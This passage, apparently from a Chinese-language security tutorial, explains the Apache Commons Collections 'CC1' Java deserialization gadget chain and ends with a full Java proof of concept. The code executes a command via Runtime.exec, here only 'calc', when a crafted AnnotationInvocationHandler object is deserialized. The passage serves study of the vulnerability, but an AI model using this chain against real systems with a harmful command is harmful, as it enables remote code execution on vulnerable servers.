 2. 被 TransformedMap.decorate 修饰的Map中必须有⼀个键名为X的元素

所以 AnnotationInvocationHandler 类的构造函数第一个参数用的是 Retention.class ，因为Retention有⼀个⽅法，名为value；所以，为了再满⾜第⼆个条件，还需要给Map中放⼊⼀个Key是value的元素：

```
innerMap.put("value", "xxxx");
```

所以最终POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class cc1 {

    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class},new Object[] {
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class}, new Object[] {
                null, new Object[0]
            }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream os = new ObjectOutputStream(barr);
        os.writeObject(obj);
        os.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```
